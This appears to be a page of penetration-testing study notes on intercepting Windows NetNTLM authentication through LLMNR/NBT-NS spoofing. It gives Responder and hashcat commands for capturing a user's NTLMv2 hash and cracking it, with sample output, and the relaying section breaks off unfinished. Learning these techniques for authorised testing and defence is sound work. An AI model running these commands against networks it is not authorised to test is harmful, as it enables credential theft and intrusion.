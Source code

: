 # NetNTLM

{% embed url="https://jarrettgxz-sec.gitbook.io/windows/active-directory-ad/authentication-methods/netntlm" %}

NetNTLM challenges can be intercepted using a Man-in-the-Middle (MitM) attack, where it can be cracked to retrieve the password of a particular user. Particularly, a few name resolution protocols have flaws in the way they are implemented that allows for such attacks to happen. The protocols are as listed:

1. Link-Local Multicast Name Resolution (LLMNR)
   * utilizes a multicast approach to send query to all devices in the **multicast group**
2. NetBIOS Name Service (NBT-NS)
   * utilizes a broadcast approach to send query to all devices in the **entire subnet**
3. Web Proxy Auto-Discovery (WPAD)&#x20;
   * ...

### Server Message Block (SMB)

The SMB protocol uses the NetNTLM authentication method, which can be exploited due to the name resolution protocols in place.

The [Responder](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/windows-active-directory/tools/responder) tool can be used to automatically watch the network, and intercept any name resolution queries, before quickly sending a response packet to the source, while acting as the intended recipient - essentially a race condition situation to see if the spoofed or legitimate response will reach first.

This will trick the server to communicate with the rogue server (running Responder tool) instead of the legitimate device.

### Exploit methods for the NetNTLM authentication

#### 1. Intercept and crack the NetNTLM challenge

The rogue device will first start a listener to intercept the NTLM challenge:

```sh
$ responder -I <iface>
```

After retrieving the hash, we can proceed to crack it using hashcat:

```sh
$ hashcat -m 5600 <hash_file> <password_file> --force
```

* `-m 5600`: NetNNTLMv2 (Copy paste directly in browser to maintain fragment: [https://hashcat.net/wiki/doku.php?id=hashcat#:\~:text=5600](https://hashcat.net/wiki/doku.php?id=hashcat))

**Example**

```sh
$ responder -I <iface>
...

[SMB] NTLMv2-SSP Client   : ...
[SMB] NTLMv2-SSP Username : xxx\username
[SMB] NTLMv2-SSP Hash     : username::xxx:<hash>

$ echo username::xxx:<hash> > ntlmv2-hash

$ hashcat -m 5600 ntlmv2-hash <password_file> --force
...
```

#### 2. Relaying the challenge

...



